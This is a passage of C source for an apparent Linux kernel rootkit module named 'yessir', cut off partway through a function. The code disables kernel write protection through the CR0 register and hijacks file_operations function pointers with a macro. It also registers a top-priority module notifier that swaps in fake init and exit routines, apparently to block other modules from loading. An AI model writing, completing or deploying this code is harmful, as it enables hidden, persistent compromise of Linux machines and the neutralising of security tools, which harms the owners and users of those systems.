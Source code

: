 ### AllInOne.c

```c
//---------------------- include ->
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <asm/uaccess.h>
#include <linux/cred.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/seq_file.h>
#include <linux/fs.h>
#include <linux/proc_fs.h>
#include <net/tcp.h>

MODULE_LICENSE("GPL");

#define NAME "yessir"

void disable_write_protection(void){
	unsigned long cr0 = read_cr0();
	clear_bit(16, &cr0);
	write_cr0(cr0);
}

void enable_write_protection(void){
	unsigned long cr0 = read_cr0();
	set_bit(16, &cr0);
	write_cr0(cr0);
}

#define set_f_op(op, path, new, old)	\
	do{									\
		struct file *filp;				\
		struct file_operations *f_op;	\
		filp = filp_open(path, O_RDONLY, 0);		\
		if(IS_ERR(filp)){							\
			old = NULL;										\
		}													\
		else{												\
			f_op = (struct file_operations *)filp->f_op;	\
			old = f_op->op;									\
			disable_write_protection();						\
			f_op->op = new;									\
			enable_write_protection();						\
		}													\
	}while(0)

//---------------------- block other module ->
int module_notifier(struct notifier_block *nb, \
					unsigned long action, void *data);
struct notifier_block nb = {
	.notifier_call = module_notifier,
	.priority = INT_MAX
};

int fake_init(void);
void fake_exit(void);

int module_notifier(struct notifier_block *nb, \
					unsigned long action, void *data){
	struct module *module;
```